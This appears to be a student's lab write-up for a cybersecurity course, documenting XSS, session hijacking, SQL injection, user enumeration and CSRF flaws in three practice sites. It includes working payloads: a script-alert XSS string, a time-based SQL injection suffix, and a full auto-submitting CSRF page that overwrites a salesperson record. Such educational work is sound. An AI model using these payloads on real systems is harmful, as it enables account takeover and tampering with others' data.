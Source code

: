# Unit-9-Cybersecurity

# Green:

Vulnerability 1: Cross-Site Scripting (XSS)

Go to Contact section and submit a feedback with <script>alert('XSS
ALERT');</script>
Log into admin and once you click the feedback section, it will trigger a popup


<img src="green-exploit-1.gif" alt="Challenge 1">



Vulnerability 2: Cross-Site Scripting (XSS)

Go to log in page, if you enter the correct username, but inccorect
password, "Log in was unsuccessful" will be bolded
If you enter an invalid username and incorrect password, it wouldn't be bolded.


<img src="green-exploit-2.gif" alt="Challenge 1">




# Blue:

Vulnerability 1: Session Hijacking/Fixation

In one browser (Chrome), we log in normally but then copy the current
PHPSESSIONID.
Use another browser (Safari in this case) which was NOT logged in and
change the PHPSESSIONID we got from Chrome.
It will show that it was automatically logged into the system in the
Safari without entering the password and username.


<img src="blue-exploit-1.gif" alt="Challenge 1">



Vulnerability 2: SQL Injection

Go to the salesperson tab
Select a random salesperson and add this at the end of the url ' OR
SLEEP(5)=0--'
The current browser will change in 5 seconds


<img src="blue-exploit-2.gif" alt="Challenge 1">



# Red:

Vulnerability 1: User Enumeration

Log in and then go to sales person's page
Click into any salesperson to get their ID and change it to 11 or 12;
these information shouldn't be public to everyone
Log out and go to the public site
Click into any salesperson and change their ID to 11 or 12 and we will
get that information when public user shouldn't supposed to
<img src="red-exploit-1.gif" alt="Challenge 1">


Vulnerability 2: Cross-Site Request Forgery (CSRF)

Create a html page with the code below

<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=5"
method="post" style="display: none;" name='CSRF' target="res">
    <input type="text" name="first_name" value="HACKED" />
      <input type="text" name="last_name" value="WAS HACKED" />
      <input type="text" name="phone" value="111-111-2222" />
      <input type="text" name="email" value="HACKED@HACKED.com" />
</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>


User submit a feedback with a url that links to the html page
Admin log into site and visit the attached feedback url
By visiting the page, it will attack and change salesperson with the ID 5's info

<img src="red-exploit-2.gif" alt="Challenge 1">
